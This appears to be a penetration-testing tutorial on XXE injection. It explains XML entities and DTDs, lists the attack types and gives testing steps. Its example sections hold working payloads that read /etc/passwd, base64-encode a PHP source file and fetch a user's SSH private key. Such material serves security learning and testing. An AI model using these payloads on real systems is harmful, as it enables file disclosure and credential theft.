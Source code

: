 # XML External Entity (XXE Injection)

## XML Information

XML stands for "extensible markup language". XML is a language designed for storing and transporting data. Similar to HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Earlier in the web's history, XML was in vogue as a data transport format (the "X" in "AJAX" stands for "XML"). The format used in modern days is JSON instead.

### XML Entities <a href="#what-are-xml-entities" id="what-are-xml-entities"></a>

XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities `&lt;` and `&gt;` represent the characters `<` and `>`. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

### Document Type Definition <a href="#what-is-document-type-definition" id="what-is-document-type-definition"></a>

The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional `DOCTYPE` element at the start of the XML document. The DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two.

### XML Custom Entities <a href="#what-are-xml-custom-entities" id="what-are-xml-custom-entities"></a>

XML allows custom entities to be defined within the DTD. For example:

`<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>`

This definition means that any usage of the entity reference `&myentity;` within the XML document will be replaced with the defined value: "`my entity value`".

### XML External Entities <a href="#what-are-xml-external-entities" id="what-are-xml-external-entities"></a>

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared.

The declaration of an external entity uses the `SYSTEM` keyword and must specify a URL from which the value of the entity should be loaded. For example:

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://website.com" > ]>`

The URL can use the `file://` protocol, and so external entities can be loaded from file. For example:

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

## XXE Information

XML external entity injection (also known as XXE) is a vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

### XXE

Some applications use the XML format to transmit data between the browser and the server. To process the XML data on the server, applications almost generally employ a common library or platform API. Because the XML specification provides a number of potentially harmful features, and standard parsers support these features even if they aren't used by the application, XXE vulnerabilities may exist.

External XML entities are a form of custom XML entity whose defined values are loaded from somewhere other than the DTD in which they are declared. External entities are intriguing from a security standpoint because they allow an entity to be defined depending on the contents of a file path or URL.

### XXE Types

* Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.
* Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.
* Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.
* Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.

## XXE Enumeration

Manually testing for XXE vulnerabilities generally involves:

* Testing for file retrieval by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
* Testing for blind XXE vulnerabilities by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system.
* Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack to try to retrieve a well-known operating system file.

### XXE Example

If the web reports the content of an XML field, the attackers may be able to use an ENTITY to replace the reported field with the content of an internal file of the machine.

First, we must consider if we can upload files to the remote server, if yes. Then we may continue with a payload like the following:

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>AnySubject</Subject>
    <Content>AnyContent</Content>
</elements>
```

After writing a similar code, we should upload this file to the remote server and execute it. If successful, you may try to further enumerate the target system and gather credentials or SSH keys.

Another good example is the following:

```markup
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
            <maintitle>
                <title>&xxe;</title>
                <cwe>no</cwe>
                <cvss>no</cvss>
                <reward>no</reward>
            </maintitle>
```

### XXE Example 2

The line '`<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`' defines the file to read and binds it to the variable 'xxe'.

Then back at the XML shown below we are going to print the contents of the file defined in the 'xxe' variable into the comment field so it is viewable.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

#### Extra Steps

If we know that a valid username has a SSH key we can attempt to read it from the common SSH location.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

## References

{% embed url="https://portswigger.net/web-security/xxe" %}


